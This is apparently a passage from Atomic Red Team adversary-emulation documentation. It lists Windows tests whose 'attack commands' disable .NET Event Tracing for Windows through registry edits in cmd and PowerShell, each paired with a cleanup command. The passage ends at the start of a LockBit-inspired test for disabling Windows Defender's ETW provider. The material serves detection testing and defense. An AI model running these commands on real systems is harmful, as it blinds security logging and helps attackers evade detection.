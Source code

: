 **Supported Platforms:** Windows


**auto_generated_guid:** 8a4c33be-a0d3-434a-bee6-315405edbd5b






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD HKLM\Software\Microsoft\.NETFramework /v ETWEnabled /t REG_DWORD /d 0
```

#### Cleanup Commands:
```cmd
REG DELETE HKLM\Software\Microsoft\.NETFramework /v ETWEnabled /f > nul 2>&1
```





<br/>
<br/>

## Atomic Test #7 - Disable .NET Event Tracing for Windows Via Registry (powershell)
Disables ETW for the .NET Framework using PowerShell to update the Windows registry

**Supported Platforms:** Windows


**auto_generated_guid:** 19c07a45-452d-4620-90ed-4c34fffbe758






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty -Path HKLM:\Software\Microsoft\.NETFramework -Name ETWEnabled -Value 0 -PropertyType "DWord" -Force
```

#### Cleanup Commands:
```powershell
REG DELETE HKLM\Software\Microsoft\.NETFramework /v ETWEnabled /f > $null 2>&1
```





<br/>
<br/>

## Atomic Test #8 - LockBit Black - Disable the ETW Provider of Windows Defender -cmd
An adversary can disable the ETW Provider of Windows Defender,
so nothing would be logged to Microsoft-Windows-Windows-Defender/Operational anymore.
https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-075a
